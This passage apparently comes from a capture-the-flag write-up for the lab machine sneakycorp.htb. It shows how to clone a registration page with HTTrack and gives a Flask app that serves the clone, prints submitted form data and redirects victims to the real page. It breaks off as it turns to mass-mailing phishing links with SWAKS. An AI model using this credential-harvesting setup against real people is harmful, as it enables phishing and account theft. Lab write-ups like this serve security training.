 At this point it would be relatively simple to use Gophish to set up a campaign, clone the registration web page and capture any responses. However, we will use a different tool to clone the web page called HTTrack. HTTrack is capable of copying an entire website, but we will use it to capture the registration page.

Create a directory called www and a subdirectory called templates. cd to the templates directory and run:

```bash
httrack http://sneakycorp.htb/pypi/register.php -o .
```

This will copy a number of files but we can copy the register.html page created from the path sneakycorp.htb/pypi/register.html to the current directory

```bash
cp sneakycorp.htb/pypi/register.html
```

We are now going to write a simple application to host this page, capture any data that is sent to it and then redirect to the real registration page. To do this we will use Python and Flask.

```python
# Code adapted from MrR3boot
from flask import *
import requests
app = Flask(__name__)
@app.route('/pypi/register.php',methods=['GET','POST'])
def register():
 if request.method=="GET":
 return render_template("register.html")
 else:
 print(request.args)
 print(request.form)
 return redirect('http://sneakycorp.htb/pypi/register.php',
 code=302)
app.run('0.0.0.0',80)
```

This code will start a web server listening on port 80 and any request received with the path /pypi/register.php will be handled by the method register\(\). If the HTTP request is a GET, then it will use the page we cloned; register.html as a template and return that. If it is a POST request, the application will print out the arguments and form data and then redirect to the real registration page.

To run the application, we just use

```bash
sudo python3 app.py
```

You can test the page by visiting [http://127.0.0.1/pypi/register.php](http://127.0.0.1/pypi/register.php) and submit the form. You should see the data being printed out and the page redirect to the sneakycorp.htb site.

Now that we have the landing page, we need to send the phishing emails using the email list we scraped from the Sneaky Corp site. To do that, we are going to use SWAKS as mentioned before. We can write a script to read through the emails in the emails.txt file and send a message containing the URL for the phishing landing page:
